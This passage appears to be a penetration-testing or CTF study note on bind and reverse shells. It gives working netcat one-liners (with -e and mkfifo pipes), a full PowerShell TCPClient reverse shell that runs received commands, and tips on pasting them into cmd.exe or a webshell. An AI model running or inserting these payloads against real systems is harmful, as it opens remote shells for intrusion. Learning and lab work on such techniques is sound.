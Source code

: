 Connecting to this listener from another machine using netcat would give a bind shell on the target.

Similarly, you can get a reverse shell by using:
```bash
nc <LOCAL-IP> <PORT> -e /bin/bash
```

However, it's worth noting that most netcat versions don’t include the -e option, as it’s considered a serious security risk. On Windows, where we often use a static binary anyway, this method works just fine. On Linux, though, an alternative approach is necessary. Here’s a useful one-liner I found that creates a bind shell using standard netcat:
```bash
mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
```

To quickly break it down: this command sets up a named pipe at /tmp/f, and then ties the netcat listener's input/output to a shell via that pipe. The idea is to route everything typed into the netcat session through the pipe, into sh, and then back again, creating a functional shell.

![image](https://github.com/user-attachments/assets/323cff8b-03ea-4036-8916-8c2eb1b22e1d)

I also found that a very similar one-liner can be used to create a netcat reverse shell:
```bash
mkfifo /tmp/f; nc <LOCAL-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
```

This is nearly identical to the bind shell version I mentioned earlier — the only real difference is that this time, netcat is initiating a connection to the attacker's machine (reverse shell), rather than listening for one. It's a neat little trick for getting around the lack of the -e flag in most netcat builds.

![image](https://github.com/user-attachments/assets/1baa33bb-af0d-4691-bec5-ed788c4073b5)

When working with modern Windows Server targets, I often find that a PowerShell reverse shell is required. It's a pretty common approach, so I made sure to keep the go-to one-liner handy.

The command itself looks messy and complex — and to keep things simple, I won’t go into breaking it down here, but it’s incredibly effective:

```bash
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

All I had to do was swap in my attacker IP and chosen port in place of <ip> and <port>. After that, I could simply drop it into a cmd.exe shell (or even a webshell) and execute it — and just like that, I’d have a reverse shell back to my machine.

![image](https://github.com/user-attachments/assets/50bda3a6-8773-4219-b21c-cc262c5e715b)

For other common reverse shell payloads, [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) is a repository containing a wide range of shell codes (usually in one-liner format for copying and pasting), in many different languages. It is well worth reading through the linked page to see what's available.
